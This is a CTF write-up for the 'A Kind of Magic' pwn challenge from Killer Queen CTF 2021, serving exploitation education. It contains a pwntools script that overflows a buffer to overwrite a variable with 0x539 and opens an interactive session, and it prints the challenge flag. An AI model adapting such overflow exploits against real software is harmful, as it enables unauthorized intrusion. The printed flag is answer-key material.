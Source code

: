```yaml
---
name: A Kind of Magic (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for A Kind of Magic (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# A Kind of Magic

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=1806s "Killer Queen 2021: A Kind of Magic")

## Challenge Description

> You're a magic man aren't you? Well can you show me?

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './akindofmagic'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 44

# Start program
io = start()

# Build the payload
payload = flat({
    offset: 0x539
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)

# Got Shell?
io.interactive()
```

Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`
